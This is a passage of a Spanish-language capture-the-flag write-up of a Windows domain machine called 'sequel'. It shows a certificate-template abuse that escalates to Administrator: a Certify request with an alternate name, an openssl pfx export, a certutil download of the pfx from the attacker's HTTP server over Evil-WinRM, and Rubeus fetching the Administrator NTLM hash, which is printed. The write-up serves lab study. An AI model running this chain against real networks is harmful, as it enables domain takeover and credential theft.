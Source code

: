 ```bash
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519



Certify completed in 00:00:09.9250618
```
Encontramos una pantilla ahora ejecutemos el siguiente comando.
```bash
*Evil-WinRM* PS C:\tmp> ./Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
Este comandos nos vuelve bastante contenido tenemos que quedarnos con la clave privada y el certificado copiarlo y ponerlo en un mismo archivo, ahora ejecutemos el siguiente comando

```bash
❯ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```
Este cert.pfx lo tenemos que subir a la maquina victima.

```bash
❯ sudo python3 -m http.server 80
```
Y Descargamos el archivo en la maquina
```bash
*Evil-WinRM* PS C:\tmp> certutil.exe -split -f -urlcache http://10.10.14.138/cert.pfx
```
Vale teniendo este archivo ya podemos ejecutar rubeus para obtener el hash ntlm, ejecutamos este comando

```bash
*Evil-WinRM* PS C:\tmp> ./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```
Al final del todo nos reporta esta columna donde nos dan el hash ntlm del usuario administrator
```bash
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
```
